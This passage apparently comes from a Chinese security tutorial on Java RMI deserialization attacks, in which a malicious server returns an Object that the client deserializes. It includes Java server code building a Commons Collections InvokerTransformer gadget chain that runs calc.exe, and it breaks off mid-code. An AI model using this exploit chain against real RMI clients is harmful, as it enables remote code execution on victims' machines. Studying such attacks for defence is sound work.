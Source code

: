 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211202005077.png)

#### 通过 Server 攻击

有两种情况, 一种是利用 codebase 远程加载对象, 另一种是远程接口中存在返回值为 Object 的方法

前者利用条件太苛刻了, 而且需要手动指定 policy, 所以下面以后者为例

原理也很简单, 当返回值为 Object 时, 在传输的过程中 Server 必然会对其进行序列化, 自然而然地 Client 也会对传输过来的数据进行反序列化

编写 Server

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.Field;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;


public class Server {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        Hello helloImpl = new HelloImpl();
        registry.bind("hello", helloImpl);
    }
}

interface Hello extends Remote{
    public Object world() throws RemoteException, NoSuchFieldException, IllegalAccessException;
}

class HelloImpl extends UnicastRemoteObject implements Hello{

    protected HelloImpl() throws RemoteException {
        super();
    }

    @Override
    public Object world() throws RemoteException, NoSuchFieldException, IllegalAccessException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});
```